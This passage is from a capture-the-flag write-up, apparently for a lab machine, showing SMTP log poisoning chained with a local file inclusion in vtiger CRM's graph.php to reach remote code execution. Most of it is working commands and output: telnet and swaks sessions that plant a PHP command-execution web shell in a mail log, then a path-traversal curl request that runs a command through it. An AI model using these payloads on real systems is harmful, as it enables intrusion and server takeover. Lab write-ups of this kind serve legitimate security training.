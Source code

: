 ## SMTP Log Poisoning through LFI to RCE [Path #1]

Since SMTP is open we can try to send emails with malicious code, this malicious code will be stored under log files under `/var/mail/[username]`, we already have valid usernames so we can try to do Log Poisoning via SMTP and access the log via LFI.

Let's use telnet to send an email:

```shell
telnet 10.10.10.7 25

HELO wixnic
MAIL FROM:<wixnic@helo.htb>
RCPT TO:<asterisk@localhost>
DATA
Message from telnet PHP code: <?php system($_REQUEST["telnet_cmd"]); ?>
.
QUIT
```

This how the output of each input looks:

```shell
❯ telnet 10.10.10.7 25

Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
HELO wixnic
250 beep.localdomain
MAIL FROM:<wixnic@helo.htb>
250 2.1.0 Ok
RCPT TO:<asterisk@localhost>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Message from telnet PHP code: <?php system($_REQUEST["telnet_cmd"]); ?>
.
250 2.0.0 Ok: queued as 37235D92FD
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```

Now send the curl request with the `&telnet_cmd` parameter with the argument as the `id` command:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&telnet_cmd=id"
```

We can send an email with swaks:

```shell
❯ swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
=== Trying 10.10.10.7:25...
=== Connected to 10.10.10.7.
<-  220 beep.localdomain ESMTP Postfix
 -> EHLO kali
<-  250-beep.localdomain
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
```